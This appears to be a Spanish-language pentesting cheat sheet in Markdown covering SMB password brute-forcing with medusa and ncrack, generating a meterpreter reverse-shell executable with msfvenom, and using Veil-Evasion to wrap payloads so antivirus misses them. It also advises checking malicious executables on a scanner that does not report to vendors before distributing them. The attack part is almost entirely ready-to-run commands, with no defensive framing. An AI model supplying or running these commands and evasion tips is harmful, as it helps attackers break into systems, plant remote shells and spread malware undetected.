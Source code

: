 

Módulos de medusa `/usr/lib/medusa/modules` 

```bash
medusa -u soc -p soc1234 -h 10.0.0.5 -M smb
```



```bash
ncrack -p 445  --user soc --pass soc123 10.0.0.5
ncrack -p 445  -U users --pass soc123 10.0.0.5
```





#### Evadir antivirus  

Podemos ver si un archivo se detecta como malicioso para los antivirus  con  diversas aplicaciones como [virustotal](https://www.virustotal.com/gui/home/upload) o [nodistribute](https://nodistribute.com) , esto nos puede interesar a la hora de crear un ejecutable malicioso subirlo primero a una de estas aplicaciones,  comprobar su efectividad y distribuirlo si fuera necesario.

Hay que decir que virustotal tiene una base de datos de antivirus más grande, pero reporta a las empresa los virus detectados, así que según que quieras hacer es mejor no subirlo en dicha página. 



Con `msfvenom` podemos crear ejecutables maliciosos, el inconveniente es que casi todos los antivirus  lo detectan.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=4444 -f exe > /tmp/shell.exe
```



##### veil-evasion

Proporciona payloads con cripters, es decir aporta diferentes payloads con diferentes capas de encriptado para que los antivirus le cueste detectar que es un ejecutable malicioso.

**instalar** 

<u>dependencias:</u>

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

<u>instalación:</u>

```bash
apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd Veil-Evasion/
cd setup
setup.sh -s 
```

<u>método de uso:</u>

```bash
python vail-evasion.py
list	# listar payloads
use 47	# utilizar payload 47
set lhost 10.0.0.5	# añadir opción requerida 
generate	# generar exe
```
